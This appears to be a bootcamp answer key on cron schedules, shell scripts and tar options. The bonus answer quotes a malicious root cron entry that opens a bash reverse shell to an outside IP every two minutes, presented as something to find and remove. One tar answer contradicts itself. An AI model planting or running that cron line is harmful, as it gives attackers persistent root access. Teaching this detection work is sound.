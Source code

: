 ## Solution File: Reviewing Crons

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      `*/10 * * * *` 

       - **Solution**: At every 10th minute.

    - What event is the following `cron` a minute away from?

      `59 23 31 12 *`

       - **Solution**: New Years!

    - What do the following hypothetical `cron` likely do?

        - `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

            - **Solution**: Run a script that adds up all the sales for the work day.

        - `@weekly /home/sysadmin/Scripts/auto-update.sh`

            - **Solution**: A weekly automated system update.

2. Answer the following `script` assessment questions:

    - What is a _shebang_?

        - **Solution**: It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script?

        - **Solution**: `./`

    - Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

        - **Solution**: Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?

        - **Solution**: This option will let `tar` extract an archive!

    - If a directory has `ten` files and the following command is used in it, how many files are being archived?

        -   `tar cvvWf backups/archive.tar .`

            - **Solution**: Zero, because tar doesn’t compress!! But all files should be archived as they're all in the current directory!

    - What option prints the full file specification of files as you interact with them?

        - **Solution**: `-vv`

    - Why is the `-f` option used in almost every `tar` operation?

        - **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

4. **Bonus**: You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions: `Cron` is running system-level jobs with `root` privileges.The `cron` task you're looking for involves another machine.

   - Run: `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
